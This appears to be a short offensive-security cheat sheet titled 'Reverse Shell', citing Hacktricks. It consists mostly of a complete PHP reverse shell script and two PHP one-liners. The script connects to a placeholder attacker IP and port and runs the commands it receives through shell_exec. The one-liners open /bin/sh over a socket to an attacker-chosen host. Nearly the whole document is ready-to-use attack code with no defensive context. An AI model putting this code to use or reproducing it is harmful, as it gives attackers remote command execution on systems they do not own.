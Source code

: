 # Reverse Shell

```php
<?php
$ip = '<attacker_IP>';
$port = <attacker_PORT>;

$sock = fsockopen($ip, $port);
if ($sock) {
    fputs($sock, "Connected to the reverse shell...\n");

    while (!feof($sock)) {
        $command = trim(fgets($sock));

        if ($command === 'exit') {
            break;
        }

        $output = shell_exec($command);
        fputs($sock, $output);
    }

    fputs($sock, "Closing reverse shell...\n");
    fclose($sock);
}
?>
```

One-liners.

```php
$ php -r '$sock=fsockopen("<IP>", <PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

$ php -r '$sock=fsockopen("<IP>", <PORT>);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```


---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)